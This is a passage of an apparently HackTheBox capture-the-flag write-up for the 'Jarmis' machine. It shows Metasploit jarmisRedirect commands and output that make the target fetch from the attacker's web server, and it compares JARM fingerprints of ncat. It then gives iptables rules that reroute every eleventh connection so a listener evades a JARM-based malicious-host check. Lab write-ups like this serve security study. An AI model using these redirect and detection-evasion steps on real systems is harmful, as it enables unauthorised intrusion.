I’ll try giving a redirect to my own host and run:

```

msf6 auxiliary(server/jarmisRedirect) > set srvhost tun0
srvhost => 10.10.14.6
msf6 auxiliary(server/jarmisRedirect) > set redirecturl http://10.10.14.6/test
redirecturl => http://10.10.14.6/test
msf6 auxiliary(server/jarmisRedirect) > run
[*] Auxiliary module running as background job 0.
[*] Using URL: https://10.10.14.6:443/kQcebI79N1
[*] Server started.

```

When I give that url to Jarmis (the full URL including `/kQcebI79N1` or MSF won’t route it to this listener), after a couple seconds there’s a hit at MSF:

```

[*] Redirecting client 10.10.11.117 to http://10.10.14.6/test

```

And then a hit on a Python webserver I’m running:

```

root@parrot[/media/sf_CTFs/hackthebox/jarmis-10.10.11.117]# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.117 - - [23/Sep/2021 09:47:19] code 404, message File not found
10.10.11.117 - - [23/Sep/2021 09:47:19] "GET /test HTTP/1.1" 404 -

```

#### iptables / ncat

I noted earlier that `ncat` without the `-k` option was detected as malicious, but when I added `-k`, it wasn’t known by the DB. They are different because without just fills in nulls for the next nine requests, whereas the `-k` gives values:

| Option | JARM |
| --- | --- |
| no `-k` | `21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46` |
| `-k` | `21d19d00021d21d00042d43d000000107066a9db8d16b0a001ff4969166ce7` |

If I can run `nc` without the `-k`, letting it respond to the first request, fail on the next nine, and then redirect on the last, I could get the same behavior I got with MSF.

I’ll use `iptables` to do this with the following commands:

```

sudo iptables -F -t nat
sudo iptables -I PREROUTING -t nat -p tcp --dport 443 -m statistic --mode nth --every 11 --packet 10 -j REDIRECT --to-port 8443

```
